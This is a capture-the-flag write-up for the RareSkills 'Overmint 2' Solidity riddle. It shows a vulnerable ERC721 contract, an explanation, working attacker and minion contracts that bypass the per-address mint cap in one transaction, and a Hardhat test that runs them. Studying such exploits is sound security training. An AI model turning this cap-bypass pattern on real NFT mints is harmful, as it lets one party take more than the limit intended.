 ```yaml
---
title: RareSkills Solidity Riddles - Overmint 2 - Solution
date: '2023-11-26'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the RareSkills Solidity Riddles - Overmint 2 CTF
---
```


# RareSkills Riddles - Overmint 2 - Solution

## Contract

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.15;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

contract Overmint2 is ERC721 {
    using Address for address;
    uint256 public totalSupply;

    constructor() ERC721("Overmint2", "AT") {}

    function mint() external {
        require(balanceOf(msg.sender) <= 3, "max 3 NFTs");
        totalSupply++;
        _mint(msg.sender, totalSupply);
    }

    function success() external view returns (bool) {
        return balanceOf(msg.sender) == 5;
    }
}
```

## Exploit

In a public mint, people can generally mint as many NFTs as they want to, either by minting over and over or by colluding with other buyers. The only challenge here is that we have to mint 5 tokens _in a single transaction_.

First, notice that the `mint` function's `require` prevents us from minting 5 tokens to a single address - it only allows us to mint 4. Based on the short error message, it's hard to say if the intention was to cap the mint at 3 or 4. In any case, the above implementation allows us to mint a total of 4 tokens to an attacker contract by calling `mint` multiple times via a for-loop.

However, this is not yet enough to solve the riddle. To mint the fifth NFT, we can make use of an accomplice/minion contract that mints the remaining NFT for us.

To ensure all these steps happen within a single transaction (the deployment transaction), we have to execute all of these steps inside the constructor of our attacker. Also, notice that our attacker and minion contracts have to send the tokens to the EOA that initiated the attack for the test suite to confirm that the exploit has been successful.

_Overmint2Attacker.sol_

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.15;

import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";
import "./Overmint2.sol";

contract Minion {
    Overmint2 public overmint2;

    constructor(address _overmint2Address) {
        overmint2 = Overmint2(_overmint2Address);
    }

    function attack() public {
        overmint2.mint();
        overmint2.transferFrom(address(this), tx.origin, 5);
    }
}

contract Overmint2Attacker {
    Overmint2 public overmint2;

    constructor(address _overmint2Address) {
        overmint2 = Overmint2(_overmint2Address);
        Minion minion = new Minion(_overmint2Address);

        for (uint256 i; i < 4; i++) {
            overmint2.mint();
        }

        for (uint256 i = 1; i < 5; i++) {
            overmint2.transferFrom(address(this), msg.sender, i);
        }

        minion.attack();
    }
}
```

_Overmint2.js_

```javascript
const { time, loadFixture } = require('@nomicfoundation/hardhat-network-helpers')
const { anyValue } = require('@nomicfoundation/hardhat-chai-matchers/withArgs')
const { expect } = require('chai')
const { ethers } = require('hardhat')

const NAME = 'Overmint2'

describe(NAME, function () {
  async function setup() {
    const [owner, attackerWallet] = await ethers.getSigners()

    const VictimFactory = await ethers.getContractFactory(NAME)
    const victimContract = await VictimFactory.deploy()

    return { victimContract, attackerWallet }
  }

  describe('exploit', async function () {
    let victimContract, attackerWallet
    before(async function () {
      ;({ victimContract, attackerWallet } = await loadFixture(setup))
    })

    it('conduct your attack here', async function () {
      const AttackerFactory = await ethers.getContractFactory('Overmint2Attacker')
      const attackerContract = await AttackerFactory.connect(attackerWallet).deploy(
        victimContract.address
      )
    })

    after(async function () {
      expect(await victimContract.balanceOf(attackerWallet.address)).to.be.equal(5)
      expect(await ethers.provider.getTransactionCount(attackerWallet.address)).to.equal(
        1,
        'must exploit one transaction'
      )
    })
  })
})
```
